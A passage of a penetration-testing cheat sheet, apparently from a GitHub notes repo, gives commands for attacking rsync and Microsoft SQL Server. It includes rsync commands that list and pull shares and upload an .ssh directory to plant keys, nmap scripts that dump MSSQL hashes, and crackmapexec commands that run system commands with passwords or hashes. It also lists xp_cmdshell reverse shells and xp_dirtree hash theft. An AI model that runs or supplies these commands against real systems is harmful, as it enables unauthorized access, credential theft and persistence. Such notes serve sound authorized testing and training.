 ```bash
msf> use auxiliary/scanner/rsync/modules_list

#Example using IPv6 and a different port
rsync -av --list-only rsync://[dead:beef::250:56ff:feb9:e90a]:8730

# brute force
rsync -av --list-only rsync://192.168.0.123/shared_name

# down file
rsync -av --list-only rsync://username@192.168.0.123/shared_name
rsync -av rsync://username@192.168.0.123:8730/shared_name ./rsyn_shared

# upload file
rsync -av home_user/.ssh/ rsync://username@192.168.0.123/home_user/.ssh
```


## 1433-mssql
+ microsoft sql server,default port, 1433; other, 1435
+ brute force
+ xp_cmdshell, rce - reverse shell
+ xp_dirtree, steal hash
+ Privesc
+ data browser via dbeaver
+ have creds or sqli, enum ad user with `SUSER_SID` and `SUSER_SNAME` 
+ more, [hacktricks mssql](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server)

**mdf file extract and get password**
> insider, [mdf extract hash](https://blog.xpnsec.com/extracting-master-mdf-hashes/)

```bash
1433/tcp open  ms-sql-s      Microsoft SQL Server 2017 14.00.1000.00; RTM

# nmap 
nmap --script-help "*ms* and *sql*"

nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force
brute force
```bash
#Username + Password + CMD command
crackmapexec mssql -d <Domain name> -u <username> -p <password> -x "whoami"
#Username + Hash + PS command
crackmapexec mssql -d <Domain name> -u <username> -H <HASH> -X '$PSVersionTable'

# xp_cmdshell enable, RCE
```
